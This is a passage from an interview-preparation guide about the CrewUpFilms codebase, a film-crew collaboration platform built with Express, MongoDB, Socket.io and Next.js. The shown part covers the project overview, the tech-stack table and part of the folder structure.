







# CrewUpFilms — Comprehensive Backend Engineer Interview & Defense Guide (Parts A–E)

---

## Evidence Summary

This interview preparation guide is built exclusively on empirical evidence inspected directly from the CrewUpFilms codebase repositories and configuration files.

### Files Read and Analyzed Directly from Repository:
- **Server Core & Config**: `server/src/server.js`, `server/src/config/db.js`, `server/package.json`, `server/.env.example`
- **Authentication & Security**: `server/src/middleware/auth.js`, `server/src/middleware/admin.js`, `server/src/middleware/errorHandler.js`, `server/src/utils/generateToken.js`, `server/src/controllers/authController.js`, `server/src/routes/authRoutes.js`
- **Data Models**:
  - `server/src/models/User.js`
  - `server/src/models/Profile.js`
  - `server/src/models/Project.js`
  - `server/src/models/Application.js`
  - `server/src/models/Conversation.js`
  - `server/src/models/Message.js`
  - `server/src/models/Notification.js`
  - `server/src/models/Follow.js`
  - `server/src/models/Contest.js`
- **Controllers & Services**:
  - `server/src/controllers/projectController.js`
  - `server/src/controllers/applicationController.js`
  - `server/src/socket/socketHandler.js`
  - `server/src/services/fraudDetectionService.js`
  - `server/src/services/recommendationService.js`
  - `server/src/utils/emailService.js`
  - `server/src/utils/smsService.js`
- **Client Core & Architecture**:
  - `client/package.json`
  - `client/src/middleware.js`
  - `client/src/lib/api.js`
  - `client/src/lib/auth.js`
  - `client/src/hooks/useAuth.js`
  - `client/src/hooks/useSocket.js`
  - Route tree under `client/src/app`
- **Deployment & Tooling**:
  - `railway.toml` (Railway server runner configuration)
  - `client/.vercel` (Vercel deployment metadata)
  - `.gitignore`

### Features / Files Verified as NOT FOUND IN REPO:
- **Relational Databases & ORMs**: No PostgreSQL, MySQL, Prisma, Sequelize, or TypeORM (MongoDB with Mongoose 8 is used exclusively).
- **In-Memory Caches / Message Brokers**: No Redis, Memcached, BullMQ, or RabbitMQ.
- **Automated Test Suites**: No Jest, Vitest, Mocha, Cypress, Playwright, or Supertest test files found.
- **API Documentation**: No Swagger, OpenAPI YAML/JSON, or Postman collections in repository.
- **Containerization**: No `Dockerfile` or `docker-compose.yml` found (Railway relies on Nixpacks builder).
- **TypeScript on Server**: Server is written in vanilla CommonJS Node.js (`require`), while client uses Next.js 14 JSX with optional dev-dependency types.
- **Cloud Object Storage SDKs**: No AWS S3, Cloudinary, or Google Cloud Storage SDK uploads for direct binary file uploads (team files and portfolios store external URLs or base64 strings).

---

## Table of Contents

### Part A: Project Understanding (from the Codebase)
- [A1. Project Overview](#a1-project-overview) [Both]
- [A2. Tech Stack Table](#a2-tech-stack-table) [Both]
- [A3. Folder Structure](#a3-folder-structure) [Both]
- [A4. Architecture Diagram & Request Lifecycle](#a4-architecture-diagram--request-lifecycle) [Both]
- [A5. Deep Codebase Breakdown — Backend](#a5-deep-codebase-breakdown--backend) [Backend]
  - [server.js Architecture](#serversrcserverjs)
  - [Database Connection & Auto-Healing Index Config](#serversrcconfigdbjs)
  - [Authentication & Protection Middlewares](#serversrcmiddlewareauthjs)
  - [Global Error Handler](#serversrcmiddlewareerrorhandlerjs)
  - [Token Generation Engine](#serversrcutilsgeneratetokenjs)
  - [User Model & Security Hooks](#serversrcmodelsuserjs)
  - [Profile Model & Creator Features](#serversrcmodelsprofilejs)
  - [Project Model & Casting Governance](#serversrcmodelsprojectjs)
  - [Application Model](#serversrcmodelsapplicationjs)
  - [Real-Time Models: Conversation & Message](#serversrcmodelsconversationjs--messagejs)
  - [Notification Engine & Socket Hooks](#serversrcmodelsnotificationjs)
  - [Community Models: Follow & Contest](#serversrcmodelsfollowjs--contestjs)
  - [Authentication Controller](#serversrccontrollersauthcontrollerjs)
  - [Project Controller Core](#serversrccontrollersprojectcontrollerjs-createproject)
  - [Application Governance Controller](#serversrccontrollersapplicationcontrollerjs)
  - [WebSocket Gateway](#serversrcsocketsockethandlerjs)
  - [Automated Fraud Detection Service](#serversrcservicesfrauddetectionservicejs)
  - [Smart Recommendation Matching Service](#serversrcservicesrecommendationservicejs)
  - [Multi-Tier Email Service](#serversrcutilsemailservicejs)
- [A5. Codebase Breakdown — Frontend](#a5-codebase-breakdown--frontend) [Frontend]
  - [Axios API Client & Interceptors](#clientsrclibapijs)
  - [Auth Utilities & Storage Mechanisms](#clientsrclibauthjs)
  - [Authentication Context Hook](#clientsrchooksuseauthjs)
  - [Singleton WebSocket Hook](#clientsrchooksusesocketjs)
  - [Edge Middleware & Private Launch Gate](#clientsrcmiddlewarejs)
  - [Application Routes & Pages](#application-pages-and-routes)
- [A5. Connection Map & End-to-End Flow Traces](#a5-connection-map--end-to-end-flow-traces) [Both]
  - [Component to Endpoint Map](#screen--endpoint-interaction-map)
  - [Flow 1: User Registration & OTP Handshake](#flow-1-user-registration-and-email-verification)
  - [Flow 2: Login & Authentication Session](#flow-2-user-login-session-establishment)
  - [Flow 3: Project Creation with Fraud Audit](#flow-3-project-creation-and-fraud-risk-scoring)
  - [Flow 4: Application Submission & Acceptance](#flow-4-application-submission-and-creator-review)
  - [Flow 5: Real-Time Dual-Channel Messaging](#flow-5-real-time-message-delivery)
- [A6. Database Architecture & SQL Schema Translation](#a6-database-architecture) [Backend]
- [A7. Complete REST API Reference](#a7-complete-rest-api-reference) [Backend]
- [A8. Authentication & Authorization Security Deep Dive](#a8-authentication--authorization-deep-dive) [Both]
- [A9. Real-Time Layer with Socket.io](#a9-real-time-layer-with-socketio) [Both]
- [A10. Frontend-Backend Integration Patterns](#a10-frontend-backend-integration-patterns) [Both]
- [A11. Environment Configuration & Deployment Architecture](#a11-environment-configuration--deployment-architecture) [Both]
- [A12. Error Handling, Validation, Logging & Testing Audit](#a12-error-handling-validation-logging--testing-audit) [Both]
- [A13. Production Security Review & Vulnerability Remediation](#a13-production-security-review--vulnerability-remediation) [Both]
- [A14. Job Description Gap Analysis & Interview Positioning](#a14-job-description-gap-analysis--interview-positioning) [Both]
- [A15. Engineering Roadmap & Architectural Improvements](#a15-engineering-roadmap--architectural-improvements) [Both]

### Part B: Learn the Basics Behind It
- [Part B: Basics Behind the Project — 20 Foundational Concept Boxes](#part-b-basics-behind-the-project) [Both]

### Part C: Interview Question Bank (220+ Questions)
- [C1. Project-Specific Questions (CrewUpFilms)](#c1-project-specific-questions-crewupfilms) [Both]
- [C2. JavaScript and Node.js](#c2-javascript-and-nodejs) [Backend]
- [C3. Express and REST API Design](#c3-express-and-rest-api-design) [Backend]
- [C4. Authentication and Security](#c4-authentication-and-security) [Both]
- [C5. PostgreSQL and SQL (25 Hands-On Problems)](#c5-postgresql-and-sql) [Backend]
- [C6. Object-Relational Mappers (ORMs: Prisma / Sequelize)](#c6-object-relational-mappers-orms-prisma--sequelize) [Backend]
- [C7. React Integration and Next.js Basics](#c7-react-integration-and-nextjs-basics) [Frontend]
- [C8. Cloud Infrastructure: AWS, Render, and Hostinger](#c8-cloud-infrastructure-aws-render-and-hostinger) [Backend]
- [C9. DevOps: Docker, CI/CD, Linux, Nginx, PM2, and Git](#c9-devops-docker-cicd-linux-nginx-pm2-and-git) [Backend]
- [C10. Scalability: Redis, Queues, and Real-Time Systems](#c10-scalability-redis-queues-and-real-time-systems) [Backend]
- [C11. Data Structures, Algorithms, and OOP (40 Coding + 10 Design Questions)](#c11-data-structures-algorithms-and-oop) [Both]
- [C12. Mini System Design (5 Architectural Blueprints)](#c12-mini-system-design) [Backend]
- [C13. HR and Behavioral Interview Questions (STAR Method)](#c13-hr-and-behavioral-interview-questions-star-method) [Both]

### Part D: SHNOOR International Research
- [D1. Company Overview](#d1-company-overview) [Both]
- [D2. Strategic Deductions from the Job Description](#d2-strategic-deductions-from-the-job-description) [Both]
- [D3. Inferred Interview Process & Round Map](#d3-inferred-interview-process--round-map) [Both]
- [D4. Preparation Priority Hierarchy](#d4-preparation-priority-hierarchy) [Both]

### Part E: Practice and Plan
- [E1. Structured Study Plans (7-Day & 3-Day Crash)](#e1-structured-study-plans) [Both]
- [E2. The One-Page Cheat Sheet: 40 Essential Facts About CrewUpFilms](#e2-the-one-page-cheat-sheet-40-essential-facts-about-crewupfilms) [Both]
- [E3. Professional Project Pitch Scripts (2-Min & 5-Min)](#e3-professional-project-pitch-scripts) [Both]
- [E4. 30 Rapid-Fire Technical Questions & Answers](#e4-30-rapid-fire-technical-questions--answers) [Both]
- [E5. Hands-On Engineering Checklist: Build and Deploy a REST API with PostgreSQL](#e5-hands-on-engineering-checklist-build-and-deploy-a-rest-api-with-postgresql) [Backend]

---

## A1. Project Overview [Both]

### The Problem CrewUpFilms Solves
Indie filmmakers, student creators, videographers, editors, sound designers, and actors face a chronic discovery and trust problem. Traditional professional networks (e.g., LinkedIn) are built for corporate white-collar roles and lack film-specific taxonomies (camera gear, audition formats, shooting locations, reel embeds, IMDb links, project production stages). Conversely, informal social networks (Instagram DMs, WhatsApp groups, Facebook pages) lack contracts, verification, casting safety guardrails, spam detection, and structured team management.

**CrewUpFilms** bridges this gap by acting as a specialized, full-cycle **collaboration marketplace and production workspace for film and media creators**. It enables filmmakers to pitch projects, recruit specialized talent through structured casting calls, safely communicate in real time, review portfolios, hire mentors for 1:1 guidance, enter curated filmmaking contests, and showcase completed films with crew attribution.

### Primary User Personas
1. **Creators (Project Owners)**: Filmmakers, producers, or directors who initiate projects, define needed roles (Cinematographer, Sound Recordist, Lead Actor, Colorist), configure compensation structures, review applicant portfolios, and accept talent into their digital production room.
2. **Applicants (Crew Members & Talent)**: Specialized creators who build verified multimedia profiles, search and filter open casting calls matching their skills, apply with customized messages, and collaborate on active sets.
3. **Mentors**: Seasoned film industry professionals who offer advisory sessions, portfolio reviews, and 1:1 consultations with customizable weekly schedules, hourly pricing, and booking review feeds.
4. **Platform Administrators**: Super-users who oversee platform health, audit projects in the moderation queue, monitor high-risk automated fraud detection scores, review user reports, ban offending accounts, manage contests, and broadcast platform announcements.

### End-to-End User Journeys
```
┌─────────────────┐      ┌─────────────────────────┐      ┌─────────────────────────┐
│ User Registers  │ ───► │ Email/Phone OTP Verify  │ ───► │ Profile Setup & Skills  │
└─────────────────┘      └─────────────────────────┘      └─────────────────────────┘
                                                                       │
                         ┌─────────────────────────────────────────────┴──────────────────┐
                         ▼                                                                ▼
         ┌───────────────────────────────┐                                ┌───────────────────────────────┐
         │       CREATOR PATHWAY         │                                │       APPLICANT PATHWAY       │
         │ - Pass KYC/Age Gate           │                                │ - Explore / Search Projects   │
         │ - Create Casting Call/Project │                                │ - AI / Scored Recommendations │
         │ - Pass Fraud Risk Engine      │                                │ - Submit Role Application     │
         └───────────────┬───────────────┘                                └───────────────┬───────────────┘
                         │                                                                │
                         └──────────────────────┐                  ┌──────────────────────┘
                                                ▼                  ▼
                                     ┌─────────────────────────────────┐
                                     │ Review Applications / Acceptance│
                                     └────────────────┬────────────────┘
                                                      │
                                                      ▼
                                     ┌─────────────────────────────────┐
                                     │ Active Production Collaboration │
                                     │ (Group Chat, Tasks, Schedule)   │
                                     └────────────────┬────────────────┘
                                                      │
                                                      ▼
                                     ┌─────────────────────────────────┐
                                     │ Project Release & Film Showcase │
                                     │ (YouTube Attribution to Crew)   │
                                     └─────────────────────────────────┘
```

### Safety & Governance Guardrails (Core Brand Pillars)
Filmmaking involves physical auditions, expensive gear, and vulnerability to exploitation. CrewUpFilms implements software-level safety protocols directly into its data layer:
- **KYC & Verification Gate for Posting**: To prevent anonymous predatory auditions, creators must have an email verified (`isEmailVerified: true`), phone verified (`phone.isVerified: true`), and date-of-birth registered on their User account before they can post a project (`VERIFICATION_REQUIRED` error code).
- **Hard Private-Residence Audition Block**: Auditions in private residential homes are prohibited in casting calls. Client-side validation strictly enforces safe audition environments (`studio`, `production-office`, `online`, `flexible`).
- **Heuristic Fraud Detection Service**: An automated algorithmic risk engine scores project text against predatory keywords (audition fees, cryptocurrency, WhatsApp redirection, upfront payments), creator account age, and report history, flagging suspicious productions to administrators.
- **Minor Protection System**: Automatically calculates whether a user is under 18 from their ISO date of birth (`computeIsMinor`) and stores `isMinor: true` to prevent improper casting requests.
- **Safety Meeting Check-In Tool**: Profiles feature an emergency contact sub-schema and a `safeCheckIn` system allowing crew members to store meeting locations, counter-party identities, and scheduled return times during real-world shoots.

---

## A2. Tech Stack Table [Both]

The table below catalogs every technology and dependency utilized across both the client and server manifests:

| Technology | Manifest Version | Role in Project | Beginner Definition | Architecture Tier |
|---|---|---|---|---|
| **Node.js** | `>=18.0.0` (v20 in prod) | Runtime Environment | A JavaScript engine that runs JS outside the browser directly on server operating systems. | Backend |
| **Express** | `^4.19.2` | Web Application Framework | A minimalist Node framework that sets up HTTP servers, routing tables, and middleware chains. | Backend |
| **MongoDB** | `^8.4.1` (Mongoose) | NoSQL Database | A document database storing data as flexible, JSON-like BSON records instead of fixed SQL tables. | Backend |
| **Mongoose** | `^8.4.1` | Object Data Modeling (ODM) | A JavaScript library that enforces structured schemas, validators, and relationships on top of MongoDB. | Backend |
| **Socket.io** | `^4.8.3` | Real-Time Engine (Server) | A library providing bi-directional, event-driven WebSocket communication with automatic fallback. | Backend |
| **Socket.io-client**| `^4.8.3` | Real-Time Client (Browser) | The browser-side counterpart to Socket.io that maintains persistent socket channels with Express. | Frontend |
| **jsonwebtoken** | `^9.0.2` | Authentication Tokenizer | Issues and cryptographically verifies digitally signed tokens (JWTs) for stateless login sessions. | Backend |
| **bcryptjs** | `^2.4.3` | Password Hashing | An implementation of the Blowfish-based hashing cipher that irreversibly salts and hashes passwords. | Backend |
| **express-rate-limit**| `^7.4.0` | DoS & Brute-Force Shield | Middleware that throttles repeated requests to public endpoints (like login/register) by IP. | Backend |
| **express-validator**| `^7.2.0` | Request Sanitization & Schema Check | Declarative middleware to validate and normalize incoming request bodies before reaching controllers. | Backend |
| **helmet** | `^7.1.0` | HTTP Security Headers | Middleware that sets secure HTTP response headers (X-Frame-Options, DNS Prefetch, XSS Protection). | Backend |
| **compression** | `^1.7.4` | Bandwidth Optimizer | Middleware that automatically compresses outgoing HTTP responses using Gzip / Deflate. | Backend |
| **morgan** | `^1.10.0` | HTTP Request Logger | Middleware that logs incoming HTTP verbs, paths, status codes, and execution latency to the terminal. | Backend |
| **nodemailer** | `^6.10.1` | SMTP Mail Dispatcher | A Node.js module that connects to standard SMTP servers (like Gmail or custom hosts) to send emails. | Backend |
| **dotenv** | `^16.4.5` | Environment Variable Loader | Loads configuration keys from a local `.env` file directly into Node's runtime `process.env`. | Backend |
| **Next.js** | `^14.2.4` | Fullstack React Framework | A React framework providing hybrid server-side rendering (SSR), App Router layout nesting, and edge routing. | Frontend |
| **React** | `^18.3.1` | Component UI Library | Declarative UI library that builds component state graphs and updates the DOM using a virtual reconciliation engine. | Frontend |
| **React DOM** | `^18.3.1` | DOM Renderer for React | Provides DOM-specific methods that glue React components to actual browser elements. | Frontend |
| **Tailwind CSS** | `^3.4.4` | Utility-First Styling Engine | A CSS framework providing atomic class names (`flex`, `p-4`, `bg-zinc-900`) processed via PostCSS. | Frontend |
| **Axios** | `^1.7.2` | Promise HTTP Client | An HTTP library for the browser providing request/response interceptors, JSON auto-parsing, and auth headers. | Frontend |
| **js-cookie** | `^3.0.5` | Browser Cookie Manipulator | Lightweight JS API for handling browser cookies (used for private launch gate access tokens). | Frontend |
| **lucide-react** | `^0.394.0` | UI Vector Icon Suite | An open-source icon system providing clean, SVG-based React icon components. | Frontend |
| **react-hot-toast**| `^2.6.0` | Notification Toast Engine | Lightweight toast notification library for displaying success, error, and loading alerts in React. | Frontend |
| **PostCSS** | `^8.4.38` | CSS Transformation Pipeline | Tool for transforming styles with JS plugins; drives Tailwind CSS and Autoprefixer. | Frontend |
| **Autoprefixer** | `^10.4.19` | Vendor Prefix Engine | PostCSS plugin that parses CSS and adds vendor prefixes (e.g. `-webkit-`) using Can I Use data. | Frontend |
| **Nodemon** | `^3.1.3` (dev) | Server Process Watcher | Developer CLI tool that automatically restarts the Node server whenever backend code changes on disk. | Backend |
| **Vercel** | `^50.29.0` | Deployment CLI Tooling | Tooling powering the continuous deployment pipeline of Next.js static and serverless edge builds. | Frontend |
| **Railway (Nixpacks)**| N/A (railway.toml) | Cloud Container PaaS | Cloud platform hosting the continuous Node/Express server and persistent WebSockets. | Backend |

---

## A3. Folder Structure [Both]

Below is the complete architectural layout of the project, detailing the purpose of every critical directory and file:

```text
CREWUP/
├── railway.toml                         # [Backend] Railway deployment descriptor (startCommand, healthcheck, Nixpacks)
├── .gitignore                           # [Both] Git exclusions (node_modules, .env, .next, .DS_Store)
├── README.md                            # [Both] Repository onboarding documentation
│
├── server/                              # [Backend] Express + Mongoose + Socket.io API Application
│   ├── package.json                     # [Backend] Server dependencies, scripts (start, dev)
│   ├── .env.example                     # [Backend] Sample environment variables template
│   └── src/
│       ├── server.js                    # [Backend] Express init, HTTP server wrap, Socket.io mount, middleware pipeline
│       ├── config/
│       │   └── db.js                    # [Backend] MongoDB connection pool, self-healing stale index dropping
│       ├── middleware/
│       │   ├── auth.js                  # [Backend] protect, optionalProtect, adminOnly token guards
│       │   ├── admin.js                 # [Backend] Standalone admin authorization validator
│       │   └── errorHandler.js          # [Backend] Global 4-arg Express error handler (Mongoose 11000, Cast, Validation)
│       ├── models/                      # [Backend] Mongoose ODM Schema Definitions
│       │   ├── User.js                  # [Backend] Core account schema, bcrypt pre-save, UID generator, OTP containers
│       │   ├── Profile.js               # [Backend] Creator portfolio, skills, location, mentor schedule, safety checks
│       │   ├── Project.js               # [Backend] Casting call listings, roles, budget, safety flags, fraud risk fields
│       │   ├── Application.js           # [Backend] Role application records, unique compound indices
│       │   ├── Conversation.js          # [Backend] 1:1 chat room metadata, member references, blocked users
│       │   ├── Message.js               # [Backend] Chat messages supporting both 1:1 and project group channels
│       │   ├── Notification.js          # [Backend] Activity alerts with post-save Socket.io broadcast hook
│       │   ├── Follow.js                # [Backend] Social follower-following graph model
│       │   ├── Contest.js               # [Backend] Filmmaking contests, rules, prize allocations, winners
│       │   ├── ContestSubmission.js     # [Backend] Contest entry submissions, community votes, comments
│       │   ├── ProjectChat.js           # [Backend] Group chat container for accepted project production crews
│       │   ├── MentorBooking.js         # [Backend] Mentorship appointment bookings, video meeting records
│       │   ├── MentorReview.js          # [Backend] Ratings and reviews submitted by mentees
│       │   ├── Task.js                  # [Backend] Production kanban tasks for active project crews
│       │   ├── ScheduleEvent.js         # [Backend] Production calendar shoot days, call times
│       │   ├── Report.js                # [Backend] User & project abuse reporting tickets
│       │   ├── LaunchWaitlist.js        # [Backend] Pre-launch beta invite waitlist signups
│       │   ├── Activity.js              # [Backend] Global timeline activity feed events
│       │   └── Review.js                # [Backend] Peer collaboration reviews after project completion
│       ├── routes/                      # [Backend] Express Route Modules (24 distinct API routers)
│       │   ├── authRoutes.js            # [Backend] /api/auth (register, login, google, OTP verify, password reset)
│       │   ├── projectRoutes.js         # [Backend] /api/projects (CRUD, recommendation, bookmarks, release)
│       │   ├── applicationRoutes.js     # [Backend] /api/apply & /api/applications (submit, accept, decline, withdraw)
│       │   ├── conversationRoutes.js    # [Backend] /api/conversations & /api/messages (direct chat queries)
│       │   ├── notificationRoutes.js    # [Backend] /api/notifications (feed, mark read, unread count)
│       │   ├── profileRoutes.js         # [Backend] /api/profile (fetch, update bio, skills, portfolio)
│       │   ├── mentorRoutes.js          # [Backend] /api/mentors (browse, book, reviews, weekly schedule)
│       │   ├── adminRoutes.js           # [Backend] /api/admin (stats, risk monitor, user bans, queue)
│       │   └── ...                      # [Backend] (search, explore, leaderboard, contests, activity, etc.)
│       ├── controllers/                 # [Backend] Request Handlers & Business Logic
│       │   ├── authController.js        # [Backend] Registration, login, OTP validation, crypto reset logic
│       │   ├── projectController.js     # [Backend] Project lifecycle, KYC gate verification, fraud scoring integration
│       │   ├── applicationController.js # [Backend] Application state machine, automated team member allocation
│       │   └── ...                      # [Backend] (profileController, adminController, contestController, etc.)
│       ├── services/                    # [Backend] Specialized Algorithmic Engines
│       │   ├── fraudDetectionService.js # [Backend] Heuristic scanning of scam keywords, account age, risk classification
│       │   └── recommendationService.js # [Backend] 4-factor weighted scoring algorithm for project suggestions
│       ├── socket/
│       │   └── socketHandler.js         # [Backend] Socket.io auth handshake, room routing (`user:*`, `project:*`)
│       └── utils/
│           ├── generateToken.js         # [Backend] JWT signing utility with 7-day expiration
│           ├── emailService.js          # [Backend] Multi-provider cascade (Gmail SMTP → Brevo API → Resend API)
│           ├── smsService.js            # [Backend] Twilio SMS dispatcher for phone OTP with dev logger fallback
│           └── youtubeChecker.js        # [Backend] YouTube video embed and metadata validation
│
└── client/                              # [Frontend] Next.js 14 App Router Application
    ├── package.json                     # [Frontend] Client dependencies, build scripts
    ├── next.config.js                   # [Frontend] Next.js compilation, image domain whitelist
